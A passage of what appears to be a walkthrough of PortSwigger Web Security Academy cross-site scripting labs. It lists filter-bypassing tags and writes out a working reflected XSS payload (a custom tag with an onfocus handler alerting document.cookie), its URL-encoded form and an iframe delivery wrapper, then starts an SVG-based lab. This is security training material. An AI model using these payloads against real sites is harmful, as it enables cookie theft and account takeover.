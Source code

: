 These are valid: • animatetransform • animatemotion • custom tags • animate •
iframe2 • audio2 • image2 • image3 • input2 • input3 • input4 • video2 • 2 • set
• a2

![img](media/6c13c65a0f987213732e575bbbc80bba.png)

For example we can pop an alert with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<xss autofocus tabindex=1 onfocus=alert(document.cookie)></xss>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://0a69008d036aebe780944ee10019004a.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<iframe src="https://0a69008d036aebe780944ee10019004a.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E" width="100%" height="100%" title="Iframe Example"></iframe>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

19 Reflected XSS with some SVG markup allowed
=============================================

This lab has a simple reflected XSS vulnerability. The site is blocking common
tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert()
function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts

The content of the search is reflected inside a h1 HTML element:

![img](media/b018bae71b411d989936940912f99246.png)
